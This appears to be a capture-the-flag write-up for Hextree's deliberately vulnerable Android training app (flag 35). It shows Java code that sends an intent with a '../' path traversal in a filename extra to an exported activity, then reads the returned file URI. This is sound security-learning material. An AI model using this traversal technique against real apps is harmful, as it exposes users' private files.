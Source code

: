 The `prepareFlag()` method checks if the filename is "flag35.txt" and if the file exists. If so, it logs some tags and writes a flag to the file.

If no filename was provided (stringExtra is null) It defaults to using "secret.txt", creates a URI for this file, creates an intent with this URI, sets some flags, and returns a result code of -1 (indicating failure or default case).

Since the activity is exported we can send an intent and here it looks for a `filename` and then prepares the flag in file `flag35.txt` 

#### Solution
lets see the uri that will be used to access `secret.txt` 
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/secret.txt`

lets try request with `intent.putExtra("filename","flag35.txt");`
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/flag35.txt`

we are looking inside folder `files` ? so to get around that we do as we normally do in any terminal, we take a step back using `..` 

```java
	Intent intent = new Intent();  
	intent.putExtra("filename","../flag35.txt"); //you want secret so dont use it  
	intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
	startActivityForResult(intent,1);
	
	if (requestCode == 1) {  
	        Log.d("Hextree","URI: "+ data.getData().toString());  
	    try {  
	        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
	        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
	        String line ;  
	        while ((line = reader.readLine()) != null) {  
	            Log.d("File", "[*]" + line);  
	        }  
	    } catch (FileNotFoundException e) {  
	        throw new RuntimeException(e);  
	    } catch (IOException e) {  
	        throw new RuntimeException(e);  
	    }  
	}
```

Then press done and see the magic

![alt](flag35.png)
